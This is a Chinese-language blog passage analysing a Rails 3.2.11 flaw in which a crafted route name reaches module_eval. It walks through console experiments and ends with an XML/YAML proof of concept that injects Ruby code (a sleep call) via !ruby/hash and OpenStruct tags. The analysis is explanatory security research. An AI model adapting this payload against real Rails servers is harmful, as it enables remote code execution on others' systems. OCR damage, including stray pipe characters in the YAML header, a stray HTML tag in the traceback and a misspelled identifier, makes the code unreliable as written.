 
从上面的代码中，我们可以看到，NamedRouteCollection 把"[ ] ="方法别名到了 add 方法，add 方法进而调用了 define_named_route_methods，最后在 define_hash_access 中我们看到了可爱的 module_eval，在 eval 块里面，有个被替换的变量 selector 来自 name，这样，我们只需要巧妙构造下 name 就可以执行任意 ruby 代码了！

我们在 rails console 中做个小试验：

```
[clozure@clozure-air:OOXX]$ rails c  
Loading development environment (Rails 3.2.11)  
1.9.3-p362 :001 >  
1.9.3-p362 :001 > test = ActionDispatch::Routing::RouteSet::NamedRouteCollection.new  
 => #<ActionDispatch::Routing::RouteSet::NamedRouteCollection:0x007fef2abcc7f0 @routes={}, @helpers=[], @module=#<Module:0x007fef2abcc6d8>>  
1.9.3-p362 :002 > test['clozure;sleep(10);clozure'] = {}  
NoMethodError: undefined method `defaults' for {}:Hash<br /><p><br />
     from /Users/clozure/.rvm/gems/ruby-1.9.3-p362/gems/actionpack-3.2.11/lib/action_dispatch/routing/route_set.rb:168:in`block in define_named_route_methods' 
```

本想 sleep(10)，结果不仅报错了，也没 sleep 成，看下报错信息，是在下面这行报错的：

```
hash = route.defaults.merge(:use_route => name).merge(opts) 
```

这个我们貌似看到过吧？是的，就在 define_hash_access 调用的上面，还有这么一个拦路虎，它在我们的 value 上调用了 defaults 方法，我们的{}一无所有，怎么会有 defaults 方法呢？

这时候，我们需要 OpenStruct 对象出场了，出于 ruby 的 meta programming 需求，当我们 OpenStruct.new("foo" => "bar")时，新创建的对象就自动有了一个 foo 方法，其返回值是 bar，当然，你可以在 bar 的位置写个动态的 lambda 表达式，体验一把函数式编程，不过与我们的主题无关了。ok，继续试验：

```
1.9.3-p362 :003 > test = ActionDispatch::Routing::RouteSet::NamedRouteCollection.new  
 => #<ActionDispatch::Routing::RouteSet::NamedRouteCollection:0x007fef2ab551a0 @routes={}, @helpers=[], @module=#<Module:0x007fef2ab55038>>  
1.9.3-p362 :004 > test['clozure;sleep(10);clozure'] = OpenStruct.new("defaults" => {})

NameError: undefined local variable or method `clozure_url' for #<Module:0x007fef2ab55038> 
```

这次程序睡足了 10 秒钟，然后抱怨找不到 cojzure_url 变量，已经做过了我们目标的 eval 语句，执行代码成功！

现在我们的问题变成了怎么把这个 OpenStruct 放到 YAML 里面，我们貌似没法在 YAML 里面给对象指定构造函数的非 String 的参数吧？看下 OpenStruct 的实现代码，我们发现它所有的“函数名=>返回值”对应关系是保存在@table 实例变量里面的，这就轮到“---||||||||||| !ruby/object“前缀的 YAML 出场了，通过他我们可以设置实例变量，这样所有的拼图就完整了，我们得到了如下的嗜睡的 poc：

```
xml = %{  
<?xml version="1.0" encoding="UTF-8"?>  
<bingo type='yaml'>  
---| !ruby/hash:ActionDispatch::Routing::RouteSet::NamedRouteCollection  
'test; sleep(10); test' :  
 !ruby/object:OpenStruct  
  table:  
   :defaults: {}  
</bingo>

}.strip 
```
